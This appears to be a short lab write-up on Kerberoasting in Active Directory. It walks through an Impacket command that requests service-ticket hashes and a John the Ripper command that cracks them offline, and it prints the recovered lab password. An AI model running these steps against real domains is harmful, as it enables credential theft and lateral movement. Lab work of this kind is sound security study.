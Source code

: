 # Kerberoasting in Active Directory

## Technique Overview

Kerberoasting is a exploitation technique in which an attacker with a low-privileged domain account requests service tickets (TGS) for service accounts and attempts to crack them offline to recover plaintext credentials.

- **MITRE ATT&CK ID:** [T1558.003 – Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
- **Tools Used:** Rubeus, Mimikatz, Impacket

---

## Lab Misconfiguration

In this lab, a service account ('svc_iis') was:
- Configured with **Service Principal Name (SPN)**: 'HTTP/webserver.mydomain.com'
- Assigned a **weak password**
- Member of the **Domain Users** group only (low-privilege)

This is a **typical enterprise misconfiguration**, where service accounts are not protected or audited properly.

---

##  Exploitation Steps

### 1. Gain Access to a Low-Privileged Account (Lucy)

### 2. Request TGS Hash

```bash
  GetUsersSPNs 'mydomain.com/lucy:<pass>' -request
```
### 3. Crack the Hash Offline

```bash
  john -w:/usr/sahre/wordlist/rockyou.txt hash
```
Password: !giSem@89$gSm

## Impact
Compromising a service account with local admin rights can lead to lateral movement or privilege escalation.

Often overlooked in real environments with hundreds of SPNs.

Easy to automate and scale in large environments.
